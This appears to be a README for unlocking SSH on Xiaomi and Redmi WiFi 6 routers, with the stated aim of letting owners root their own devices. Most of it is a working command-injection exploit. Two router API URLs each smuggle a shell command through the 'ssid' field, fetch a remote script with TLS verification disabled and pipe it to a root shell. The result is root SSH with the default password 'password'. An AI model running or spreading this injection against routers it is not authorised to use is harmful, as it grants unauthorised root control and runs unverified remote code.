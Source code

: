 # Unlock SSH on Xiaomi and Redmi WiFi 6 routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser:
```
http://192.168.31.1/cgi-bin/luci/;stok=STOKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Funlock_ssh.sh%20%7C%20ash%0A
```

If the command is injected correctly you will receive an `{"code":0}` response.

Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it with "passwd root" afterwards.

If you also want to block some Chinese servers (this will also disable access by the MiWifi app), run:
```
http://192.168.31.1/cgi-bin/luci/;stok=STOCKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Fblock_chinese_servers.sh%20%7C%20ash%0A
```
